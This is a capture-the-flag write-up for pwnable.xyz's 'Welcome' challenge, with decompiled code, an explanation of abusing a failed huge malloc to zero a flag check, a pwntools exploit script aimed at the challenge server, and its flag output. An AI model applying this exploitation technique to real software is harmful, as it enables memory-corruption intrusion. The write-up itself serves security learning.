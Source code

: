 # Pwnable.xyz Welcome

Run file:
```
$ ./challenge
Welcome.
Leak: 0x7faadee40010
Length of your message: 123
Enter your message: aaaaa
aaaaa
```

Only 1 interesting function in Ghidra:
```
undefined8 FUN_00100920(void)
{
  long *plVar1;
  void *__buf;
  long in_FS_OFFSET;
  size_t local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  FUN_00100b4e();
  puts("Welcome.");
  plVar1 = (long *)malloc(0x40000);
  *plVar1 = 1;
  __printf_chk(1,"Leak: %p\n",plVar1);
  __printf_chk(1,"Length of your message: ");
  local_28 = 0;
  __isoc99_scanf(&%lu,&local_28);
  __buf = malloc(local_28);
  __printf_chk(1,"Enter your message: ");
  read(0,__buf,local_28);
  *(undefined *)((long)__buf + (local_28 - 1)) = 0;
  write(1,__buf,local_28);
  if (*plVar1 == 0) {
    system("cat /flag");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Obviously, there is no easy flaw in the code, so the only way to get the flag is to make `*plVar1 == 0`, the easiest way is to use `((long)__buf + (local_28 - 1)) = 0` line.
Read the malloc() manual, we know that malloc returns NULL on error. Attempting to allocate more than PTRDIFF_MAX bytes is considered an error.
When it happens, the `((long)__buf + (local_28 - 1)) = 0` line becomes `local_28 - 1 = 0`.
The leaked address is also a large number. So just set local_28 = leaked address + 1 and we're done!
Exploit:

```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./challenge", checksec = False)

con = remote("svc.pwnable.xyz", 30000)

con.recvuntil(b"Leak: ")
leak = int(con.recvline().decode().strip("\n"), 16)
log.info(hex(leak))

con.sendlineafter(b"Length of your message: ", str(leak+1))
con.sendlineafter(b"Enter your message: ", b"a")

con.interactive()
```

When we run it:
```
$ ./exp.py
[+] Opening connection to svc.pwnable.xyz on port 30000: Done
[*] 0x7fc328f74010
/home/teapot/pwn/pwnxyz/COM_welcome/./exp.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  con.sendlineafter(b"Length of your message: ", str(leak+1))
[*] Switching to interactive mode
FLAG{did_you_really_need_a_scriptXXXXXXXXXXXXXXX}
```

Yup, I don't really need a script.